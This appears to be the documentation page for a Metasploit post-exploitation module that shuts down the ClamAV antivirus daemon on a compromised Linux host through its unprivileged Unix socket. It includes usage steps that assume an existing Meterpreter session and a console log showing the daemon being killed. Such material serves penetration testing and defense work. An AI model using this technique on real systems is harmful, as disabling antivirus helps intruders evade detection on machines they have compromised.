 ### Description
This module will cause the ClamAV service to be shutoff on Linux hosts. 
ClamAV uses a Unix socket that allows non-privileged users to interact with the ClamAV daemon via utilities like "clamscan".
However, no additional checks are required to trigger ClamAV's shutdown.

## Verification Steps
### Shutting off ClamAV
  1. Launch `msfconsole`
  2. Get a Meterpreter shell on a Linux host that's also running ClamAV.
  3. Do: `use post/linux/manage/disable_clamav`
  4. Do: `set SESSION <session number on the Linux host>`
  6. Do: `exploit -j`
  7. The daemon should be shutoff.

## Scenarios
```
msf post(linux/manage/disable_clamav) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4         meterpreter x86/linux  dllcoolj @ 192.168.130.1  127.0.0.1:4444 -> 127.0.0.1:38360 (127.0.0.1)

msf post(linux/manage/disable_clamav) > show options

Module options (post/linux/manage/disable_clamav):

   Name                Current Setting        Required  Description
   ----                ---------------        --------  -----------
   CLAMAV_UNIX_SOCKET  /run/clamav/clamd.ctl  yes       ClamAV unix socket
   SESSION             4                      yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(linux/manage/disable_clamav) > ps -ef | grep 'clamd'
[*] exec: ps -ef | grep 'clamd'

clamav    132021       1 16 18:51 ?        00:00:09 clamd
dllcoolj  132533   71177  0 18:52 pts/3    00:00:00 sh -c ps -ef | grep 'clamd'
dllcoolj  132535  132533  0 18:52 pts/3    00:00:00 grep clamd
msf post(linux/manage/disable_clamav) > exploit -j
[*] Post module running as background job 10.
msf post(linux/manage/disable_clamav) >
[*] Checking file path /run/clamav/clamd.ctl exists and is writable...
[+] File does exist and is writable!
[*] Shutting down ClamAV!

msf post(linux/manage/disable_clamav) > ps -ef | grep 'clamd'
[*] exec: ps -ef | grep 'clamd'

dllcoolj  132927  132925  0 18:52 pts/3    00:00:00 grep clamd
```
